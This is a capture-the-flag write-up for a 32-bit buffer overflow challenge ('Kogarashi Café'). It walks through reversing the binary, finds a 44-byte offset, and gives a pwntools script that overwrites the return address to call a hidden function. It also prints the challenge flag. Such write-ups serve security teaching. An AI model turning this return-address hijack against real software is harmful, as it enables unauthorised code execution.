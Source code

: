 # !Kogarashi Café - The First Visit  

**Category:** Binary Exploitation 

A simple binary exploitation challenge involving a buffer overflow to hijack execution flow.  

---

### Challenge  

**Provided File:** `first_visit`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file first_visit` to determine the binary type:
   
     ```sh
     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ddf24eef326cd1ee996fc66f78c48a6eab6d9b87, not stripped
     ```
   - Run `strings first_visit` to find readable text inside:
     ```sh
     Barista: 'Strange... the recipe is missing.
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d first_visit > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary contains a **buffer overflow vulnerability**, allowing us to overwrite the return address.
   - The function `brew_coffee()` is present in the binary but not called directly.
   - Our goal is to overwrite the return address with the function’s address to execute it.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file first_visit  
   checksec --file=first_visit  
   strings first_visit  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze the functions.
   - Identify the address of `brew_coffee()` from the disassembly.  

3. **Exploit Buffer Overflow**  
   - Determine the correct buffer overflow offset (44 bytes).
   - Overwrite the return address with the address of `brew_coffee()` to gain control.  

---

## Exploit Script  

```python
from pwn import *

# Connect to the remote challenge
p = remote('chals1.apoorvctf.xyz', 3001)

# Determine the offset (e.g., 44 bytes) and use the correct address of brew_coffee()
offset = 44
brew_coffee_addr = p32(0x0804856b)  # Using the address from disassembly

payload = b'A' * offset + brew_coffee_addr

p.sendline(payload)
p.interactive()
```

---

## Extracted Flag  

```
apoorvctf{c0ffee_buff3r_sp1ll}
```
